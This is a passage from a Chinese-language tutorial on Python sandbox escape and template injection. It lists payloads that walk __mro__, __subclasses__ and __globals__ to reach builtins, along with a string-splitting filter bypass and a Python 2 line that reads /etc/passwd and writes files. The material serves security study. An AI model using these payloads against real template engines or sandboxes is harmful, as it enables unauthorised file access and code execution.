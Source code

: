   ```
  ().__class__.__mro__[1]
  
  {}.__class__.__mro__[1]
  
  [].__class__.__mro__[1]
  
  &#39;&#39;.__class__.__mro__[1]#python3
  
  &#39;&#39;.__class__.__mro__[2]#python2
  ```

- 获取子类列表

  然后通过object类的__subclasses__()方法获取所有的子类列表，查看可用的类

  ```
  ().__class__.__bases__[0].__subclasses__()
  ```

  ```
  {{&#39;&#39;[&#39;__cl&#39;&#43;&#39;ass__&#39;].__bases__[0][&#39;__subcl&#39;&#43;&#39;asses__&#39;]()}}
  ```

  若类中有file，考虑读写操作. (python2)

  ```
  [].__class__.__mro__[1].__subclasses__()[40](&#39;/etc/passwd&#39;).read()
  
  [].__class__.__mro__[1].__subclasses__()[40](&#39;/tmp/test.txt&#39;, &#39;w&#39;).write(&#39;xxx’)
  ```

  (2)找到重载过的__init__类。

  在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的，因为wrapper是指这些函数并没有被重载，这时它们并不是function，不具有__globals__属性。

  用脚本帮我们来筛选出重载过的init类的类

  ```
  l = len([].__class__.__mro__[1].__subclasses__())
  for i in range(l):
      if &#39;wrapper&#39; not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
          print(i,[].__class__.__mro__[1].__subclasses__()[i])
  ```

  重载过的__init__类的类具有__globals__属性，这里以WarningMessage为例，会返回很多dict类型。

  ```
  [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__
  ```

  寻找keys中的__builtins__来查看引用，这里同样会返回很多dict类型

  ```
  [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;__builtins__&#39;]
  ```

  相关利用:
